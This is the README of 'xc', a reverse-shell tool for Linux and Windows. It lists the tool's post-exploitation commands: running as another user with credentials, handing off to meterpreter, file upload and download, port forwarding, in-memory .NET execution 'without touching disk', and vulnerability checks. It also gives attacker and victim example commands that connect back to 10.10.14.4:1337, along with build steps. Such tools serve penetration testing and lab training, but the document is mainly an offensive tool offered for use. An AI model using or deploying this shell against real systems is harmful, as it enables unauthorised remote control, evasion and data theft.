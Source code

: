 # xc

Netcat like reverse shell for Linux & Windows. This is still experimental so pull requests are welcome :)

## Features

### Windows

``` 
 !runas <username> <password> <domain>
   - restart xc with the specified user
 !runasps <username> <password> <domain>
   - restart xc with the specified user using powershell
 !met <port>
   - connects to a x64/meterpreter/reverse_tcp listener
 !upload <src> <dst>
   - uploads a file to the target
 !download <src> <dst>
   - downloads a file from the target
 !lfwd <localport> <remoteaddr> <remoteport>
   - local portforwarding (like ssh -L)
 !rfwd <remoteport> <localaddr> <localport>
   - remote portforwarding (like ssh -R)
 !vulns
   - checks for common vulnerabilities
 !plugins
   - lists available plugins
 !plugin <plugin>
   - execute a plugin
 !rc <port>
   - connects to a local bind shell and restarts this client over it
 !spawn <port>
   - spawns another client on the specified port
 !shell
 !powershell
 !net <sample.exe> <arg1> <arg2> ...   
   - Runs a .NET assembly from the server on the client without touching disk
 !exit
``` 

### Linux

```
 !runas <username> <password> <domain>
   - restart xc with the specified user
 !met <port>
   - connects to a x64/meterpreter/reverse_tcp listener
 !upload <src> <dst>
   - uploads a file to the target
 !download <src> <dst>
   - downloads a file from the target
 !lfwd <localport> <remoteaddr> <remoteport>
   - local portforwarding (like ssh -L)
 !rfwd <remoteport> <localaddr> <localport>
   - remote portforwarding (like ssh -R)
 !plugins
   - lists available plugins
 !plugin <plugin>
   - execute a plugin
 !rc <port>
   - connects to a local bind shell and restarts this client over it
 !spawn <port>
   - spawns another client on the specified port
 !shell
 !ssh <port>
 !exit
``` 

## Examples

- Linux Attacker:	`xc -l -p 1337`			    (Server)
- WindowsVictim :   `xc.exe 10.10.14.4 1337`	(Client)
- Argumentless:     `xc_10.10.14.4_1337.exe`    (Client)


[![asciicast](https://asciinema.org/a/g4jkA6N99GqUqJkDzsboj5ZJ5.svg)](https://asciinema.org/a/g4jkA6N99GqUqJkDzsboj5ZJ5)

## Setup

Windows:
```
go get github.com/hashicorp/yamux
go build
```

Linux:
```
make
```

You probably want to replace the ssh keys in the keys folder if you plan to use the ssh server on linux. These will be used to spawn a ssh server with the !ssh command on linux.